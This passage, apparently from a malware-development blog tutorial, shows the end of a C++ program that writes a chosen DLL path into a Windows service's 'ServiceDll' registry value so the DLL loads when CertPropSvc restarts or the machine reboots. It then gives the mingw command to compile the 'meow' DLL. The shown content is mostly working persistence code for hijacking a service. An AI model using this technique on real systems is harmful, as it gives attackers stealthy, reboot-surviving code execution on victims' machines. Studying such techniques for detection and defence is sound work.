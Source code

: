 ```cpp
    KEY_SET_VALUE,
    NULL,
    &hKey,
    NULL
  );
 
  if (result != ERROR_SUCCESS) {
    printf("[-] failed to open registry key. error code: %ld\n", result);
    return 1;
  }
 
  // set DLL path
  result = RegSetValueExA(
    hKey,
    "ServiceDll",
    0,
    REG_EXPAND_SZ,
    (const BYTE*)dllPath,
    (DWORD)(strlen(dllPath) + 1)
  );
 
  RegCloseKey(hKey);
 
  if (result == ERROR_SUCCESS) {
    printf("[+] meow! dll path set successfully. reboot or restart CertPropSvc to trigger.\n");
  } else {
    printf("[-] failed to set DllPath. code: %ld\n", result);
  }
 
  return 0;
}
```

So logic is pretty simple.     

### demo

Let's go to see this in action. First of all compile our "meow" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o meow.dll meow.cpp
```

![malware](/assets/images/177/2025-09-17_01-14.png){:class="img-responsive"}    
